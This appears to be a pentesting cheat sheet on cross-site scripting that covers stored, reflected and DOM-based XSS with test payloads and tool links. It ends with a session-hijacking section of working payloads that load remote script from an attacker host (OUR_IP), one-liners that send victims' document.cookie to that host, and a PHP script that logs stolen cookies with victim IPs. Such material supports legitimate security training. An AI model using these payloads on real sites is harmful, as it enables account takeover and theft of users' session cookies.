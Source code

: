 # Stored XSS
This type of cross-site-scripting are persistent. The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

Try this code to see if the site is vulnerable:
```html
<script>alert(window.origin)</script>
```
If the code is running on the main application, the IP will be displayed.

---

# Reflected XSS
This type of cross-site-scripting are non-persistent. Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

Try this code to see if the site is vulnerable:
```html
<script>alert(window.origin)</script>
```
If the code is running on the main application, the IP will be displayed.

---

# DOM-Based XSS
Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)

JavaScript functions to write to DOM objects are:
-   `document.write()`
-   `DOM.innerHTML`
-   `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:
-   `add()`
-   `after()`
-   `append()`

```html
<img src="" onerror=alert(window.origin)>
```

---

## Tools
> https://github.com/payloadbox/xss-payload-list
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
- `XSSer`
- `XSStrike`
- `BruteXSS`


---

# Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

### Session-Hijacking
For blind-XSS testing, try these payloads and see if they request your webserver:
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Send cookie to yourself:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

PHP for `index.php` to parse the cookie:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```